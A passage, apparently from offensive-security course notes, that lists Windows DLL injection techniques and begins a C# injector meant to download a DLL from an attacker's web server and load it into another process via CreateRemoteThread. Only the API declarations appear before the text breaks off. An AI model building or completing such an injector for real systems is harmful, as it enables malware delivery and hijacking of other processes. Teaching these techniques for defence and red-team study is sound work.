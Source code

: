 ## 5.2.2 DLL Injection method

Some of DLL injection methods are

1. **CreateRemoteThread()**: This is the most common and straightforward method for DLL injection. It involves creating a new thread in the target process that calls `LoadLibrary()` to load the desired DLL into the process.

2. **NtCreateThreadEx()**: A more advanced and less documented API that can be used to create a thread in another process, similar to `CreateRemoteThread()`, but with more flexibility and some additional features that might bypass certain security checks.

3. **QueueUserAPC()**: This method queues an Asynchronous Procedure Call (APC) to a thread within the target process. The queued APC executes when the thread enters an alertable state, typically used for injecting code rather than DLLs.

4. **SetWindowsHookEx()**: A technique used to set a hook in the target process, which will load a specified DLL into the process. This method is often used to inject DLLs into processes that interact with the user interface, like those processing Windows messages.

5. **RtlCreateUserThread()**: Similar to `CreateRemoteThread()`, but uses a lower-level NT API. It provides an alternative way to start execution of code in another process and is often used in more sophisticated code injection scenarios.

6. **SetThreadContext()**: This method involves modifying the thread context of an existing thread in the target process. It can be used to redirect the thread to execute arbitrary code when it resumes execution.

7. **Reflective DLL Injection**: Unlike the other methods that rely on the Windows API to load a DLL, Reflective DLL Injection loads a DLL from memory without using the Windows API. This method involves crafting a DLL that can map itself into memory when executed.

## 5.2.3 Basic DLL injection in C`#`

Create a new C# .NET Console Application that will fetch DLL from the attacker’s web server. Then write the DLL to disk since `LoadLibrary` only accepts files present on disk.

The final code

```cs
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Text;
using System.Net;

namespace Basic_DLL_Injection_in_CSharp
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll", CharSet = CharSet.Ansi, ExactSpelling = true, SetLastError = true)]
```